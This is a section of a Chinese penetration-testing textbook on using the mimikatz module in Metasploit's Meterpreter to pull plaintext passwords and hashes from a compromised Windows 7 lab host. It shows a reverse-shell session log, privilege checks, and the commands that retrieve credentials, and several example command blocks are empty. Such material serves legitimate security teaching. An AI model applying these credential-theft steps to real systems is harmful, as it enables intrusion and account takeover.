




8.5 破解纯文本密码工具mimikatz
mimikatz是一款强大的系统密码破解获取工具。该工具有段时间是作为一个独立程序运行。现在已被添加到Metasploit框架中，并作为一个可加载的Meterpreter模块。当成功的获取到一个远程会话时，使用mimikatz工具可以很快的恢复密码。本节将介绍使用mimikatz工具恢复密码。
【实例8-3】演示使用mimikatz恢复纯文本密码。具体操作步骤如下所示。
（1）通过在目标主机（Windows 7）上运行Veil创建的可执行文件backup.exe，获取一个远程会话。如下所示：
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.6.103:4444
[*] Starting the payload handler…
[*] Sending stage (769536 bytes) to 192.168.6.110
[*] Meterpreter session 2 opened (192.168.6.103:4444 -> 192.168.6.110:1523) at 2014-07-19 16:54:18 +0800
meterpreter >
从输出的信息中，可以看到获取到了一个与192.168.6.110主机的远程会话。
（2）确认目标用户的权限。执行命令如下所示：
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
从输出信息中，可以看到当前用户已经是系统权限。此时，就可以进行其他操作了。
（3）加载mimikatz模块。执行命令如下所示：
meterpreter > load mimikatz
Loading extension mimikatz…success.
从输出的信息中，可以看到mimikatz模块已加载成功。
（4）查看mimikatz模块下有效的命令。执行命令如下所示：
meterpreter > help
执行以上命令后，会输出大量的信息。其中，在Meterpreter中所有的命令都已分类。这里主要介绍下mimikatz相关的命令，如下所示：
Mimikatz Commands
=================
Command Description
------- -----------
kerberos Attempt to retrieve kerberos creds
livessp Attempt to retrieve livessp creds
mimikatz_command Run a custom commannd
msv Attempt to retrieve msv creds (hashes)
ssp Attempt to retrieve ssp creds
tspkg Attempt to retrieve tspkg creds
wdigest Attempt to retrieve wdigest creds
以上输出信息显示了可执行的Mimikatz命令。如回复kerberos信息、livessp信息和哈希信息等。
【实例8-4】恢复哈希密码。执行命令如下所示：

执行以上命令后，输出五列信息。分别表示认证ID、包、域名、用户名和密码。从该界面可以看到，当前系统中bob用户的哈希密码值中。在哈希密码值中，前面的lm表示使用LM方式加密；ntlm表示使用NTLM方式加密。
【实例8-5】获取kerberos（网络认证协议）信息。执行命令如下所示：

从输出的信息中可以看到，输出的信息类似msv命令输出的信息。唯一不同的就是，这里可以看到使用哈希加密的原始密码。从以上信息中，可以看到bob用户的密码为www.123。
【实例8-6】获取wdigest（摘要式身份验证）信息，如下所示：

以上输出的信息就是当前用户摘要式身份验证的信息。
【实例8-7】恢复livessp身份验证信息。执行命令如下所示：

以上输出的信息显示了当前用户livessp身份验证信息。